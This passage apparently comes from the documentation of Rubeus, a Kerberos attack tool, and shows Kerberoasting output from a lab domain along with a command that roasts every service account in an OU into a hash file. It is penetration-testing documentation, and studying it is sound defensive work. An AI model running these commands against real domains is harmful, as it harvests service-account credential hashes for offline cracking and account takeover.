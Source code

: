     v1.3.4


    [*] Action: Kerberoasting


    [*] SamAccountName         : harmj0y
    [*] DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    [*] ServicePrincipalName   : asdf/asdfasdf
    [*] Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$AE5F019D4CDED6CD74830CC...(snip)...


    [*] SamAccountName         : sqlservice
    [*] DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
    [*] ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
    [*] Hash                   : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$E2B3869290...(snip)...
    
    ...(snip)...


Kerberoasting all users in a specific OU, saving the hashes to an output file:

    C:\Rubeus>Rubeus.exe kerberoast /ou:OU=TestingOU,DC=testlab,DC=local /outfile:C:\Temp\hashes.txt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.4


    [*] Action: Kerberoasting

    [*] Target OU              : OU=TestingOU,DC=testlab,DC=local

    [*] SamAccountName         : testuser2
    [*] DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
    [*] ServicePrincipalName   : service/host
    [*] Hash written to C:\Temp\hashes.txt

    [*] Roasted hashes written to : C:\Temp\hashes.txt


